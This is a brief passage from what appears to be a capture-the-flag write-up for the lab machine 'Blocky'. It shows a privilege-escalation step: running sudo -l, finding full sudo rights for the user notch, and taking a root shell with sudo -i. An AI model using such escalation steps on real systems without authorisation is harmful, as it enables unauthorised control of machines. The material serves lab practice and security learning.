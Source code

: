# 12 - PrivEsc


# sudo permissions
```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

This looks like the default sudo permissions after installation.



```bash
notch@Blocky:~$ sudo -i
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
```